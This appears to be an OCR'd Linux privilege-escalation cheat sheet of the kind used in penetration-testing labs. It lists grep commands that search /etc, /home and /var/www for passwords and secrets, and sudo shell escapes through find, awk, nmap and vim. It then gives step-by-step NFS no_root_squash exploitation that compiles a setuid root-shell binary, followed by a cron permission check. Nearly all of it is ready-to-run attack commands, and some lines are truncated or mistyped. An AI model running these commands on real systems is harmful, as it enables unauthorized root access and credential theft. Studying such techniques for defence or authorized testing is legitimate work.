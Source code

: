 ~~~
3. grep -Eir "password|secret|sudo|<username>" * | less 
4. cd /etc 
5. grep -Eir "password|secret|sudo|<username>" * | less 
6. cd /home 
7. grep -Eir "password|secret|sudo|<username>" * | less 
8. cd /var/www 
9. grep -Eir "password|secret|sudo|<username>" * | less 
10. find . -type f | xargs grep <SEARCHTERM>
~~~
# Sudo shell escapes.
~~~~~~
sudo -l 
sudo find /bin -name nano -exec /bin/sh \;  
sudo awk 'BEGIN {system("/bin/sh")}'  
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse 
sudo vim -c '!sh'
~~~~~~
# test
~~~
1. Notice the list of programs that can run via sudo 
2. Loof for any of these:  
  - find 
  - awk 
  - nmap 
  - vim 
~~~
# If you have any of those proceed to exploit.
~~~
1. cat /etc/exports 
2. If “no_root_squash” option is defined for the “/tmp” export (or another export), use this method 
~~~
Exploitation  
Kali VM  
1. Open command prompt and type: showmount -e [Linux VM IP Address]  
2. In command prompt type: mkdir /tmp/1  
3. In command prompt type: mount -o rw,vers=2 [Linux VM IP Address]:/tmp /tmp/1  
In command prompt type: echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c  
4. In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x  
5. In command prompt type: chmod +s /tmp/1/x  
Linux VM  
1. In command prompt type: /tmp/x  
2. In command prompt type: id 

# Exploit misconfigured vulnerable NFS.
~~~
http://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/
=======================
s -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null 
cron.d 
cron.daily 
cron.deny 
cron.hourly 
cron.monthly 
cron.weekly 
crontab 
 
~~~